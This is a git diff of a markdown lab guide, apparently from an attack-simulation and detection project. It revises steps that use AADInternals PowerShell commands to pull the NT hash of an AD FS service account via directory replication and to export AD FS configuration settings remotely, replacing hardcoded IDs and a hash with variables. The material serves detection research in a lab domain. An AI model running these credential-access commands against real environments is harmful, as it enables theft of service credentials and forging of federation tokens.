

removed a few variables for the remote variation

diff --git a/3_simulate_detect/credential-access/exportADFSConfigurationSettings.md b/3_simulate_detect/credential-access/exportADFSConfigurationSettings.md
@@ -173,28 +173,25 @@ Import-Module –Name AADInternals
 
 ### Get NTHash of AD FS Service Account via Directory Replication Services (DSR)
 
-5. Get the NTHash of the AD FS service account. AADInternals accomplishes this via [Active Directory Replication Services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) with the [Get-AADIntADUserNTHash](https://github.com/Gerenios/AADInternals/blob/master/DRS_Utils.ps1#L71) function. 
+5. Get the NTHash of the AD FS service account. AADInternals accomplishes this via [Active Directory Replication Services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) with the [Get-AADIntADUserNTHash](https://github.com/Gerenios/AADInternals/blob/master/DRS_Utils.ps1#L71) function. Make sure you set the right name for the domain controller in your environment (`$Server`).
 
 ```PowerShell
-$ObjectGuid = '5e1ede45-89cb-4ddc-b300-968484f7175b'
-$ObjectSid = 'S-1-5-21-2490359158-13971675-3780420524-1103'
 $Server = 'DC01.simulandlabs.com'
-$cred = Get-Credential
+$creds = Get-Credential
 
-Get-AADIntADUserNTHash –ObjectGuid $ObjectGuid –Credentials $creds –Server $Server -AsHex 
+$NTHash = Get-AADIntADUserNTHash –ObjectGuid $Object.ObjectGuid –Credentials $creds –Server $Server -AsHex
+$NTHash
 ```
 
 ![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_06_get_adfs_service_account_nthash.png)
 
 ### Get AD FS Configuration Settings Remotely
 
-6.  Finally, we can use all the previous information to export the AD FS configuration settings remotely. 
+6.  Finally, we can use all the previous information to export the AD FS configuration settings remotely. Make sure you set the right name for the AD FS server in your environment (`$ADFSServer`).
 
 ```PowerShell
-$NTHash = "2d89f51237b6072aa1f45183c67cbb36" 
-$ObjectSid = "S-1-5-21-2490359158-13971675-3780420524-1103" 
 $ADFSServer = "ADFS01.simulandlabs.com" 
-$settings = Export-AADIntADFSConfiguration -Hash $NTHash -SID $ObjectSid -Server $ADFSServer
+$settings = Export-AADIntADFSConfiguration -Hash $NTHash -SID $Object.ObjectSid -Server $ADFSServer
 $settings 
 ```
 
